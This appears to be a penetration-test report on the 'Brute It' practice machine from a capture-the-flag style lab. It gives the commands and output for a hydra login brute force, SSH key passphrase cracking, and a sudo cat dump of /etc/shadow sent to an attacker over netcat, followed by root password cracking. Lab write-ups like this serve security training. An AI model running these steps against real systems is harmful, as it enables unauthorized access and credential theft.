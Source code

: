 ## Penetration Test Report
of Brute It
2022-09-24

Who-am-i
Contact info
### Table of contents:

Exective summary
Summary of results
Attack narrative
Conclusion
Recommendations

### executive summary

I was supposed to conduct a penetration test of Brute it machine. Specific goals were:
- identifying if remote attacker could penetrate Brute it 
- determining the impact of a security breach:
	- confidentiality of company's private data (`user.txt` and `root.txt` assets)
	- availability of Brute it information systems

### summary of results
Initial reconnaisannce resulted in discovery of web logging interface. Using page source informations - through dictionary attack I was able to gain access to RSA private key of John. Key was poorely protected with short passphrase.

Using sudo misconfiguration I was able to intercept password hashes of all users. With cracked root password I gained full control over Brute it.

### Attack narrative
#### Web interface compromise
`sudo nmap -sV -p 80 10.10.141.47`
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

`gobuster dir -u 10.10.13.234 -w /usr/share/wordlists/dirb/common.txt -o output_gobuster -q`
```
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/admin                (Status: 301) [Size: 312] [--> http://10.10.13.234/admin/]
/index.html           (Status: 200) [Size: 10918]                  
/server-status        (Status: 403) [Size: 277]
```

`sudo hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.220.119 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:invalid`
```
[80][http-post-form] host: 10.10.220.119   login: admin   password: xavier
```

On web-page there is an RSA private key of user John

#### id_rsa crack
`/usr/lib/john/ssh2john.py id_rsa_john > rsa_johnable`
(script had to be modified - `decodestring()` no longer exists from python3.9, substitute with `base64.b64decode()`)

`john --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt --format=SSH rsa_johnable`
```
status
rockinroll       (id_rsa_priv)
```
Thats id_rsa passphrase. With it I can ssh into John account

#### john account compromise
`chmod 600 id_rsa_john`

`ssh john@10.10.36.191 -i id_rsa_bruteit`
```
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
```
John's accout is compromised. `user.txt` asset intercepted

#### privilege escalation
`id`
```
uid=1001(john) gid=1001(john) groups=1001(john),27(sudo)
```
john is in sudo group

`sudo -l`
i.a.
```
User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
john can run `cat` with sudo

`sudo cat /etc/shadow > ~/john`
this file contain hashes of all users accounts

listener (attacker):
`nc -lvp port > john_shadow`
sender(target):
`nc -vn listener_ip port < john`

`john --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt john_shadow`
```
status
football         (root)
```
root password

`su root` -> root account compromised
`cat /root/root.txt` -> root asset intercepted

### Conclusion
Brute it suffered a series of control failures, which led to a complete compromise of Brute it system.

Specific goals were stated as:
- identifying if remote attacker could penetrate Brute it 
- determining the impact of a security breach:
	- confidentiality of company's private data (`user.txt` and `root.txt` assets)
	- availability of Brute it information systems
These goals of penetration test were met.

### Recommendations
1. Ensure strong passwords - generic explanation
2. Ensure bruteforce protection of web logons
3. Conduct regular vulnerability assasments
